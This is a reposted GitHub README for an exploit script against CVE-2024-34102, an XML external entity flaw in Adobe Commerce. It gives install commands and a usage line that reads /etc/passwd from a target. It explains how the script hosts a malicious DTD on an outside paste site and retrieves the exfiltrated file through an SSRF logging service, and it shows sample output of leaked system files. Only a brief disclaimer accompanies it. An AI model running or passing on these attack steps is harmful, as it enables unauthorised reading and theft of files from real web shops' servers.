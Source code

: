 # 🚨 CVE-2024-34102 Exploit Script 🚨

## Description
<i>((IM NOT THE ORIGINAL OWNER. TOOK IT FROM -> https://github.com/Chocapikk/CVE-2024-34102))</i>

This script exploits a Server-Side Request Forgery (SSRF) vulnerability in Adobe Commerce versions 2.4.7, 2.4.6-p5, 2.4.5-p7, 2.4.4-p8, and earlier. The vulnerability allows for arbitrary code execution by sending a crafted XML document that references external entities. Exploitation of this issue does not require user interaction.

## Installation

1. 📥 **Clone the repository:**
    ```sh
    git clone https://github.com/Chocapikk/CVE-2024-34102.git
    cd CVE-2024-34102
    ```

2. 📦 **Install the required packages:**
    ```sh
    pip install -r requirements.txt
    ```

## Usage

### Basic Command

```sh
python exploit.py -u <target_url> -f <file_to_read>
```

### Example

```sh
python exploit.py -u http://target.com -f /etc/passwd
```

### Options

- `-u`, `--url` (required): Specify the target URL or domain.
- `-f`, `--file` (optional): Specify the file to read from the server. Default is `/etc/passwd`.

## How It Works

1. **Initialization**:
   - Input: Target URL and file to read (default: `/etc/passwd`)
   - Disable security warnings

2. **Generate Callback URL**:
   - Create a unique DTD file containing malicious XML entities.
   - Host the DTD file on fars.ee.
   - Print the created callback URL and the file to be read.

3. **Obtain Instance ID**:
   - Obtain an instance ID from the SSRF API.

4. **Send Malicious Request**:
   - Construct a request with the malicious DTD URL.
   - Send the request to the target URL.

5. **Check Exploitation Success**:
   - Check instance logs from the SSRF API.
   - Decode and display the exfiltrated data if the exploitation is successful.

6. **Cleanup**:
   - Clear instance logs.
   - Delete the instance.

7. **Output Result and Finish**:
   - Print whether the target URL is vulnerable or not.

## Example Output

```sh
[+] Created Callback URL: https://fars.ee/abcd1234.dtd
[+] File to be read: /etc/passwd
[+] Decoded Exploited Data: 
root:x:0:0:root:/root:/bin/bash
...
[+] Vulnerable URL: http://target.com
```

## Notes

- ⚠️ **Disclaimer**: This script is for educational purposes only. Unauthorized use of this script against a target without permission is illegal.
- 💡 **Tip**: Always ensure you have permission to test a target system for vulnerabilities.

## Credits

- ❤️ Credits to @th3gokul & Sanjaith3hacker for the original code base.
- <i>((IM NOT THE ORIGINAL OWNER. TOOK IT FROM -> https://github.com/Chocapikk/CVE-2024-34102))</i>
